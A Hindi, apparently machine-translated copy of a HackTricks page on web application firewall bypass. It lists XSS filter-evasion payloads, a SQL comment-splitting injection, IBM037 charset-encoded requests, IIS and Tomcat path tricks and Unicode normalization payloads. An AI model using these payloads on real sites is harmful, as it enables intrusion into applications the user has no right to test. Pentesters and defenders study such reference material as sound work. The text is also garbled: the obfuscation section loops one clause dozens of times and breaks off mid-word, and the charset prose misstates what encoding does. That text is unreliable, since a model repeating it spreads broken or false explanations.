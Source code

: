 # WAF बाईपास

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करना चाहिए? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह विशेष [**NFTs**](https://opensea.io/collection/the-peass-family)
* [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का पालन करें।**
* **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके।**

</details>

## रेजेक्स बाईपास
फ़ायरवॉल पर रेजेक्स फ़िल्टर को बाईपास करने के लिए विभिन्न तकनीकों का उपयोग किया जा सकता है। उदाहरण में अल्टरनेटिंग केस, लाइन ब्रेक जोड़ना और पेलोड कोडिंग शामिल हैं। विभिन्न बाईपास के लिए संसाधन [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) और [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) पर उपलब्ध हैं। नीचे दिए गए उदाहरण [इस लेख](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2) से लिए गए हैं।
```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
## चारसेट एनकोडिंग

चारसेट एनकोडिंग एक प्रक्रिया है जिसमें टेक्स्ट को विभिन्न अक्षर सेट में बदला जाता है। यह एक महत्वपूर्ण वेब एप्लिकेशन सुरक्षा तकनीक है जो वेब अनुरोधों को सुरक्षित रखने के लिए उपयोग की जाती है। चारसेट एनकोडिंग का उपयोग वेब अनुरोधों के अक्षरों को वेब सर्वर तक पहुंचाने के लिए किया जाता है।

चारसेट एनकोडिंग के द्वारा, टेक्स्ट को विभिन्न बाइट कोडिंग स्कीम में बदला जाता है, जिसमें यूनिकोड, UTF-8, UTF-16, ASCII आदि शामिल हो सकते हैं। यह वेब अनुरोधों को सुरक्षित रखने में मदद करता है क्योंकि यह अनुरोधों को अवैध या अनुमति नहीं देता है।

चारसेट एनकोडिंग का उपयोग करके, एक हैकर वेब एप्लिकेशन के वेब फ़ाइलों और डेटाबेस में अप्रामाणिक डेटा डाल सकता है। इसके अलावा, चारसेट एनकोडिंग का उपयोग करके एक हैकर वेब अनुरोधों को वेब फ़ाइलों और डेटाबेस में अप्रामाणिक डेटा डालने से बचा सकता है।

चारसेट एनकोडिंग को बाइपास करने के लिए कई तकनीकें हैं, जैसे कि डबल एनकोडिंग, ऑवरफ्लो एनकोडिंग, यूनिकोड ट्रांसफ़ॉर्मेशन फ़ॉर्मेट (UTF) बाइपास, और बाइट लीकेज़ आदि। ये तकनीकें एक हैकर को वेब अनुरोधों को अनुमति देने के लिए चारसेट एनकोडिंग की सुरक्षा को चुनौती देती हैं।
```bash
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```
## अप्रत्यक्षीकरण

अप्रत्यक्षीकरण एक तकनीक है जिसका उपयोग वेब एप्लिकेशन वाले वेब फ़ायरवॉल (WAF) को बाइपास करने के लिए किया जाता है। इस तकनीक का उपयोग करके, हम अप्रत्यक्षीकृत कोड को बनाते हैं जो WAF के नियंत्रण से बचने के लिए अस्थायी रूप से बदलता रहता है। इसके परिणामस्वरूप, WAF उपयोगकर्ता के अनुरोधों को अनुमति देता है जो वास्तविक अनुरोधों के रूप में पहचाना नहीं जाता है।

अप्रत्यक्षीकृत कोड को बनाने के लिए, हम विभिन्न तकनीकों का उपयोग कर सकते हैं, जैसे कि वास्तविक कोड को अद्यतित करने के लिए विभिन्न विधियों का उपयोग करना, विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रोटोकॉल (HTTP, HTTPS) के नियमों का उपयोग करना, या विभिन्न वेब एप्लिकेशन प्रो
```bash
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```
## यूनिकोड संगतता
यूनिकोड समानीकरण के प्रयोजन के आधार पर (अधिक जानकारी [यहाँ](https://jlajara.gitlab.io/Bypass_WAF_Unicode)), ऐसे वर्णक्रम जो यूनिकोड संगतता साझा करते हैं, WAF को उम्मीदित पेलोड के रूप में बाइपास करने और निष्पादित करने की क्षमता हो सकती हैं। संगत वर्णक्रम यहाँ मिल सकते हैं [यहाँ](https://www.compart.com/en/unicode)

### उदाहरण
```bash
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```
## आकार सीमाओं को पार करना

यह सामान्य है कि क्लाउड आधारित WAFs में अगर पेलोड X साइज़ से बड़ा होता है, तो वेब अनुरक्षण अद्यतन नहीं करेगा। आप इसका उपयोग करके उन्हें बाइपास कर सकते हैं।

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह।
* प्राप्त करें [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** अनुसरण करें।**
* **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके।**

</details>
